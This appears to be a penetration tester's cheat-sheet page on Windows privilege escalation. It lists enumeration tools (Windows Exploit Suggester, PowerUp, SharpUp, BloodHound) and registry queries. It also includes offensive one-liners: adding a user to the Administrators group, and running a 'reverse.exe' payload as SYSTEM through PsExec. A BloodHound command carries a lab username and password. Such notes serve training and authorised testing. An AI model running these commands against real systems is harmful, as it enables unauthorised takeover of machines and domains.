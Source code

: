 ```
Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

#### Windows Exploit Suggester

If `systeminfo` works, you can run [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

`./windows-exploit-suggester.py --update`

1. Update the database by running `python windows-exploit-suggester.py --update`. This will output an excel spreadsheet (either `xls` or `xlsx`).
2. Copy the `systeminfo` output to a text file
3. Run `python windows-exploit-suggester.py --database 2021-07-04-mssb.xls --systeminfo win7-6.1.7600-systeminfo.txt`
   1. The `--database` flag needs the excel spreadsheet that was just created
   2. The `--systeminfo` flag needs the systeminfo output in a text file

#### Registry

- `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

  ```
  HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
      SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
      VMware User Process    REG_SZ    "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe" -n vmusr
      My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"
  ```

- `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`

#### Windows Suggestions

- If RDP is enabled, try adding a low priv user to the Administrators group by running `net localgroup administrators  /add`
- Go from Admin to SYSTEM: `.\PsExec64.exe -accepteula -i -s C:\PrivEsc\reverse.exe`

#### PowerUp

- Initialize: `. .\PowerUp.ps1`
- Run `Invoke-AllChecks`

#### Bloodhound

`bloodhound-python -u ssolper -p orbital#1 -ns 10.10.10.102 -d ORBITAL-WEAPONS.corp -c All`

##### SharpUp

- `.\SharpUp.exe`
  - There are a lot of flags depending on what you're trying to enumerate. Alternatively, you can run `.\SharpUp.exe all` to run all enumeration checks
